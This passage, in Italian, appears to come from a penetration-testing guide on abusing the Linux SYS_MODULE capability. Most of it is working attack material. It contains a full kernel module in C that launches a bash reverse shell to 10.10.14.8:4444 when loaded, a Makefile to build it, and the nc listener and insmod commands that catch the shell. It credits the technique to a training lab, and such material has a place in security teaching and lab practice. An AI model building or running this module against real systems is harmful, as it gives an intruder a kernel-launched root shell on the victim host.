 **Creare** il **modulo del kernel** che eseguirà una shell inversa e il **Makefile** per **compilarlo**:

{% code title="reverse-shell.c" %}
```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.8/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```
{% code title="Makefile" %}
```bash
obj-m +=reverse-shell.o

all:
make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
{% endcode %}

{% hint style="warning" %}
Lo spazio vuoto prima di ogni parola make nel Makefile **deve essere una tabulazione, non spazi**!
{% endhint %}

Esegui `make` per compilarlo.
```
ake[1]: *** /lib/modules/5.10.0-kali7-amd64/build: No such file or directory.  Stop.

sudo apt update
sudo apt full-upgrade
```
Infine, avvia `nc` all'interno di una shell e **carica il modulo** da un'altra shell e catturerai la shell nel processo nc:
```bash
#Shell 1
nc -lvnp 4444

#Shell 2
insmod reverse-shell.ko #Launch the reverse shell
```
**Il codice di questa tecnica è stato copiato dal laboratorio "Abusing SYS\_MODULE Capability" da** [**https://www.pentesteracademy.com/**](https://www.pentesteracademy.com)
